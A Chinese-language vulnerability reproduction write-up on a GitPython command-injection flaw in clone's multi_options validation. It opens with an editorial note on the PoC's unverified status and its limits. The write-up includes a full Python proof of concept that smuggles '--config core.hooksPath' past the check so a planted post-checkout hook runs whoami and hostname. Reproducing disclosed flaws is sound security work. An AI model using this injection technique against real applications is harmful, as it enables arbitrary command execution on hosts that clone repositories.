



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;3.1.47，实验3.1.44；应用须让攻击者控制multi_options且恶意hook文件已可达

代码与实验材料：完整本地git仓库/后置hook对照；不检查git commit结果，异常吞掉且可额外checkout触发，存在false-positive解释风险

来源证据范围：官方公告及release较好，未抓取

- **适用与权限边界（1）**：远程注入前提需显式；依据：PoC自己写本地hooks并控制options，不能证明仅恶意远程仓库URL就能自动植入hook。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：实验失败和触发阶段区分不足；依据：commit可能无user配置失败，except Exception:pass仍打印not blocked；fallback checkout说明可能不是clone阶段成功。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（3）**：运行会创建/删除本地状态；依据：固定workdir_b、删除output.log、已有dst影响重复运行，无cleanup。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  【漏洞复现】GitPython 存在命令注入漏洞（CVE-2026-42284）  
 信通云服   2026-05-08 09:09  
  
# 【漏洞描述】  
# 组件介绍  
  
GitPython 是一个用于在 Python 中与 Git 库交互的库。它提供了对 Git 存储库的对象模型访问，支持大部分 Git 的读写操作，避免了频繁与 Shell 交互的复杂代码。  
# 漏洞简介  
  
GitPython 是一个用于操作 Git 仓库的 Python 库。在 3.1.47 之前版本中，_clone() 函数在校验 multi_options 参数时，只检查原始列表的第一个选项是否合法（例如以 --branch 开头），随后却将整个列表用空格拼接后再用 shlex.split() 拆分成实际命令。攻击者可构造类似 "--branch main --config core.hooksPath=/x" 的字符串通过校验，拆分后却变成 ["--branch", "main", "--config", "core.hooksPath=/x"]，导致 Git 在克隆时应用恶意配置并执行攻击者提供的钩子脚本。该漏洞已在 3.1.47 版本中修复。  
# 【漏洞复现】  
  
安装漏洞复现环境  
  
1、  
创建虚拟环境。  
```
python -m venv myenv
source myenv/bin/activate
```  
  
  
  
2、  
安装 GitPython 3.1.44 版本。  
```
pip install GitPython==3.1.44
```  
  
  
  
3、使用 poc   
通过尝试执行 whoami 与 hostname 命令来验证漏洞是否存在。  
```
import sys, pathlib, subprocess
sys.path.insert(0, str(pathlib.Path(__file__).resolve().parent))

from git import Repo
from git.exc import UnsafeOptionError

try:
    Repo.clone_from("/nonexistent", "/tmp/x", multi_options=["--config", "core.hooksPath=/x"])
except UnsafeOptionError:
    print("multi_options=['--config', '...']: Block as expected")
except Exception:
    pass

DIR = pathlib.Path(__file__).resolve().parent / "workdir_b"
SRC = DIR / "repo"
DST = DIR / "dst"
HOOKS = DIR / "hooks"
LOG = DIR / "output.log"

if not SRC.exists():
    SRC.mkdir(parents=True)
    r = lambda *a: subprocess.run(a, cwd=SRC, capture_output=True)
    r("git", "init", "-b", "main")
    (SRC / "f").write_text("x\n")
    r("git", "add", ".")
    r("git", "commit", "-m", "init")

HOOKS.mkdir(exist_ok=True)
hook = HOOKS / "post-checkout"
hook.write_text(f"#!/bin/sh\nwhoami > {LOG.as_posix()}\nhostname >> {LOG.as_posix()}\n")
hook.chmod(0o755)

LOG.unlink(missing_ok=True)
payload = "--branch main --config core.hooksPath=" + HOOKS.as_posix()

try:
    Repo.clone_from(str(SRC), str(DST), multi_options=[payload])
except UnsafeOptionError:
    print(f"multi_options=['{payload}']: BLOCKED"); sys.exit(1)
except Exception:
    pass

if not LOG.exists() and DST.exists():
    subprocess.run(["git", "checkout", "--force", "main"], cwd=DST, capture_output=True)

print(f"multi_options=['{payload}']: not blocked")
print(f"\nHook executed: {LOG.exists()}")
if LOG.exists():
    print(LOG.read_text().strip())
```  
  
4、  
成功利用后，whoami 和 hostname 命令的执行结果将被返回。  
  
  
# 【修复建议】  
  
补丁版本  
>=3.1.47  
  
【  
参考链接  
】  
  
https://github.com/gitpython-developers/GitPython/security/advisories/GHSA-x2qx-6953-8485  
  
https://github.com/gitpython-developers/GitPython/releases/tag/3.1.47  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
